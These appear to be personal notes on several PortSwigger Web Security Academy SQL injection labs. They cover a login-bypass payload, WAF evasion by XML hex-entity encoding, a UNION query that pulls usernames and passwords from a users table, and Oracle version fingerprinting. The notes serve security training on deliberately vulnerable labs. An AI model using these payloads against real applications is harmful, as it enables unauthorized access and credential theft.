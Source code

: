 `"'` in input parameter return `Internal Server Error` so it injectable with SQLI

`'` used in query with data

our payload will be

```sql
administrator' and 1=1 --
```

---

## [Lab: SQL injection with filter bypass via XML encoding | Web Security Academy](https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding)

**Target:** retrieve the admin user's credentials, then log in to their account.

objective:  `users` table have users data.

- category number send in xml format in `/product/stock`

- request with `1+1` in xml accepted and return valid respense

- **`1 OR 1=1 --`  detected** as sqli attack because of WAF (Web Application Firewall)

- encode data as **hexa-entity** using hackvisity extension in burp work fine and pass the WAF

- number of sets in select is 1 `UNION select NULL --`  

- `SELECT version()` indicate database is PostgreSQL 

- `productId` can't retreve data in users table try `storeId` 

- `1 UNION SELECT password || '~' || username FROM users` the crafted payload || concatenate colums because there is only one colum available.

---

## [Lab: SQL injection attack, querying the database type and version on Oracle | Web Security Academy](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)

**Target:** get database type and version

- `web-security-academy.net/filter?category=` the vulnrable parameter.

- query use `'` with value.

- web app return **server error** of query is **wrong**.

- `category=Pets' UNION SELECT NULL, NULL FROM dual --` indicate: 
  
  - database is **oracle**, (**require** `FROM` and `dual` used as **default table**).
  
  - number of **colums are 2** `NULL, NULL`

- `Pets' union select banner,null from v$version --` crafted payload.
